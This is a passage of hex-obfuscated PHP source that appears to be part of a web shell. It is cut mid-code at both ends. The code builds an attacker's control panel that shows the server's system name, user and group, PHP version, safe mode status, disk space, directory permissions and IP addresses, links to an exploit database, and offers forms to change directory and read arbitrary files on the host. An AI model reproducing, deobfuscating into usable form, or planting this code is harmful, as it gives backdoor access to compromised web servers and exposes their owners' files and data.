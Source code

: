 \x77id\x74h\x3d\x22".(int)(100/count(${${"\x47\x4c\x4fB\x41\x4c\x53"}["\x61\x68hl\x72v\x6b"]}))."\x25\">[ <a\x20h\x72\x65\x66=\"\x23\x22\x20o\x6e\x63\x6ci\x63\x6b=\x22g(\x27".${${"G\x4c\x4f\x42\x41LS"}["\x76\x77\x70\x64n\x6cn\x74\x63cy"]}."\x27,\x6eu\x6c\x6c,\x27','','\x27)\"\x3e".${${"\x47LO\x42\x41\x4c\x53"}["\x65\x6e\x72h\x65\x75\x76i\x66\x63\x65"]}."</\x61\x3e ]</\x74h\x3e";${$dbswyfrkz}="";if($GLOBALS["\x6f\x73"]=="w\x69n"){foreach(range("a","z")as${${"\x47\x4c\x4fBA\x4c\x53"}["\x72\x67q\x74\x69\x62\x6ax"]}){${"GL\x4f\x42\x41\x4c\x53"}["os\x6a\x6dj\x68\x69xg\x6a\x64\x76"]="\x64\x72\x69\x76\x65\x73";if(is_dir(${${"\x47\x4cOB\x41LS"}["\x72\x67qt\x69\x62\x6ax"]}.":\\"))${${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x6fs\x6am\x6a\x68\x69\x78\x67\x6a\x64\x76"]}.="\x3ca\x20\x68r\x65f=\"#\x22\x20o\x6e\x63l\x69c\x6b\x3d\"\x67('\x46\x69\x6c\x65sMan\x27,'".${${"G\x4cO\x42\x41LS"}["r\x67\x71\x74\x69\x62\x6a\x78"]}.":/')\">[ ".${${"G\x4c\x4f\x42\x41LS"}["\x72\x67\x71\x74\x69b\x6ax"]}." ]</a\x3e\x20";}}echo"\x3c\x74a\x62l\x65 \x63las\x73=i\x6e\x66\x6f\x20c\x65\x6c\x6c\x70a\x64\x64ing=\x33 c\x65llspa\x63\x69ng\x3d0 w\x69\x64th=1\x30\x30%>\x3ctr\x3e<\x74d\x20w\x69d\x74\x68\x3d1\x3e<s\x70a\x6e>U\x6ea\x6de\nUs\x65\x72\nP\x68p\n\x48\x64d\nC\x77d".($GLOBALS["\x6f\x73"]=="w\x69\x6e"?"\n\x44\x72\x69\x76\x65\x73":"")."</\x73\x70a\x6e>\x3c/\x74\x64>"."<td>:\x3c\x6eobr\x3e".substr(@php_uname(),0,120)."\x20 \x3ca\x20h\x72ef=\x22\x68t\x74p://\x77w\x77\x2ego\x6f\x67le\x2e\x63\x6fm/\x73earc\x68?q\x3d".urlencode(@php_uname())."\" \x74a\x72ge\x74\x3d\x22_bl\x61\x6ek\x22\x3e[G\x6fo\x67le]</a>\x20\x3c\x61\x20\x68\x72e\x66=\"".${$gxpcucdkyd}."\x22 \x74\x61r\x67\x65t=\x5fb\x6cank\x3e[mi\x6cw0r\x6d]</\x61\x3e</\x6e\x6fbr\x3e\n:".${$rsbmccxccuk}."\x20(\x20".${${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x6c\x68\x78\x6d\x73rqi"]}."\x20) \x3c\x73\x70\x61\x6e>Gr\x6fup:\x3c/\x73pa\x6e\x3e\x20".${${"\x47\x4c\x4f\x42\x41LS"}["\x68\x69yv\x69\x74ic"]}."\x20(\x20".${${"\x47\x4c\x4f\x42AL\x53"}["s\x74t\x73ad\x63f"]}." )\n:".@phpversion()."\x20<s\x70a\x6e\x3e\x53\x61f\x65\x20mode:</sp\x61n>\x20".($GLOBALS["\x73\x61\x66\x65_\x6dod\x65"]?"<\x66\x6f\x6e\x74\x20\x63o\x6co\x72\x3dr\x65\x64>ON\x3c/f\x6f\x6et\x3e":"<fo\x6et\x20col\x6f\x72\x3d\x3c?\x3d\$colo\x72?\x3e<b>\x4fF\x46\x3c/\x62></\x66\x6f\x6e\x74\x3e")."\x20\x3c\x61\x20hr\x65f\x3d\x23 on\x63lick=\"g(\x27P\x68\x70\x27,\x6eu\x6c\x6c,\x6eull,\x27i\x6e\x66\x6f')\"\x3e[\x20p\x68pinfo ]\x3c/\x61\x3e <\x73pa\x6e\x3e\x44\x61\x74e\x74ime:</s\x70an> ".date("\x59-\x6d-d H:i:\x73")."\n:".viewSize(${${"\x47\x4c\x4f\x42\x41L\x53"}["a\x67\x70\x69\x72gk\x6d\x69\x68m"]})." <sp\x61n\x3eFr\x65e:</s\x70\x61\x6e>\x20".viewSize(${${"\x47\x4cOBA\x4c\x53"}["\x6a\x79\x65f\x6a\x78\x6b\x64\x6d\x67"]})." (".(int)(${${"\x47\x4cO\x42\x41L\x53"}["j\x79\x65\x66\x6ax\x6b\x64\x6dg"]}/${${"GLOB\x41\x4cS"}["\x73\x64\x69k\x64g\x6f"]}*100)."\x25)\n:".${${"G\x4c\x4f\x42A\x4c\x53"}["\x78j\x73\x63\x75qg\x76\x6bn\x75"]}."\x20".viewPermsColor($GLOBALS["\x63w\x64"])." \x3ca\x20\x68r\x65\x66\x3d# \x6f\x6ecl\x69\x63\x6b\x3d\x22g('\x46\x69les\x4d\x61\x6e\x27,\x27".$GLOBALS["\x68\x6fme\x5f\x63\x77d"]."','','',\x27')\x22>[\x20\x68\x6fm\x65\x20]\x3c/\x61\x3e\n:".${${"\x47L\x4f\x42\x41\x4c\x53"}["ur\x68m\x6cp\x78\x68"]}."\x3c/t\x64>"."\x3ct\x64 w\x69\x64t\x68=\x31\x20\x61\x6ci\x67n\x3drig\x68\x74><\x6e\x6f\x62r\x3e\x3c\x73\x65l\x65\x63\x74\x20on\x63\x68an\x67e\x3d\x22g(\x6eul\x6c,nu\x6c\x6c,\x6e\x75ll,\x6eull,\x6eull,\x74hi\x73\x2eva\x6cu\x65)\"\x3e\x3c\x6f\x70\x74g\x72\x6f\x75\x70\x20\x6ca\x62e\x6c=\x22\x50\x61\x67\x65\x20chars\x65\x74\"\x3e".${${"G\x4cO\x42\x41\x4c\x53"}["\x6d\x77n\x65\x79\x70\x69\x79\x6a"]}."</\x6fp\x74g\x72\x6fu\x70>\x3c/se\x6c\x65\x63\x74>\n<\x73p\x61\x6e\x3eS\x65\x72v\x65r \x49\x50:\x3c/spa\x6e>\n".gethostbyname($_SERVER["\x48\x54\x54\x50\x5fH\x4fS\x54"])."\n<\x73pan>C\x6ci\x65\x6e\x74\x20\x49\x50:\x3c/sp\x61\x6e>\n".$_SERVER["R\x45MO\x54E\x5f\x41DDR"]."\x3c/\x6eo\x62r>\x3c/t\x64></\x74r>\x3c/ta\x62le\x3e"."<t\x61b\x6ce ce\x6c\x6c\x70a\x64din\x67\x3d\x33 \x63el\x6c\x73\x70\x61c\x69\x6e\x67\x3d\x30\x20\x77\x69dth=\x3100%\x3e\x3ctr>".${${"\x47L\x4f\x42\x41\x4c\x53"}["w\x62\x72f\x76\x70\x79so\x72"]}."</\x74r></t\x61bl\x65>\x3c\x64iv sty\x6c\x65=\"\x6d\x61\x72gin:5\x22\x3e";}function printFooter(){${${"GLOB\x41LS"}["zc\x7a\x69\x72\x62\x77dx\x76"]}=is_writable($GLOBALS["cw\x64"])?"\x3cfo\x6e\x74\x20\x63olor=\x67\x72\x65\x65n>[\x20W\x72i\x74\x65ab\x6c\x65\x20]\x3c/\x66\x6fnt\x3e":"\x3cfo\x6e\x74 c\x6f\x6c\x6fr\x3dr\x65\x64>[\x20Not wr\x69\x74a\x62\x6c\x65\x20]\x3c/fo\x6e\x74\x3e";echo " \n\x3c/div>\x20\n<t\x61b\x6ce \x63l\x61ss=\x69\x6e\x66\x6f i\x64=\x74o\x6f\x6c\x73T\x62l\x20c\x65ll\x70a\x64\x64\x69\x6eg\x3d0\x20c\x65ll\x73p\x61\x63\x69n\x67=0 \x77id\x74h\x3d\x31\x300\x25\x22\x3e\x20\n\x20 \x20 \x3ct\x72> \n\x20\x20 \x20 \x20 \x20<td\x3e\x3c\x66or\x6d\x20o\x6e\x73ubmi\x74\x3d\x22\x67(nul\x6c,\x74\x68is.\x63.v\x61l\x75\x65)\x3b\x72etu\x72\x6e fal\x73e;\x22>\x3cspa\x6e>C\x68\x61\x6ege di\x72:\x3c/spa\x6e\x3e\n\x3ci\x6ep\x75\x74 clas\x73=\"\x74oolsInp\x22\x20t\x79p\x65=\x74e\x78\x74 na\x6de=\x63 v\x61lu\x65=\"";echo htmlspecialchars($GLOBALS["\x63\x77d"]);echo "\x22\x3e<\x69\x6e\x70ut t\x79pe=s\x75\x62m\x69t \x76al\x75\x65\x3d\x22\x3e\x3e\"\x3e</\x66\x6frm\x3e\x3c/td> \n\x20      \x20\x3ctd\x3e\x3c\x66orm\x20onsub\x6dit\x3d\"g('File\x73To\x6f\x6c\x73',n\x75\x6c\x6c,t\x68i\x73\x2ef.v\x61lue)\x3b\x72et\x75\x72\x6e\x20\x66al\x73\x65;\x22>\x3cs\x70\x61n\x3eR\x65a\x64\x20fi\x6ce:\x3c/sp\x61n>\n\x3c\x69nput c\x6cass=\x22to\x6f\x6c\x73\x49\x6ep\" \x74\x79p\x65\x3d\x74e\x78t \x6eame\x3df><\x69\x6e\x70\x75\x74\x20type\x3ds\x75b\x6dit va\x6cu\x65=\x22\x3e\x3e\x22\x3e\x3c/for\x6d\x3e</td\x3e \n\x20  \x20</t\x72\x3e\x20\n\x20\x20 \x20<\x74\x72> \n\x20\x20 \x20\x20\x20
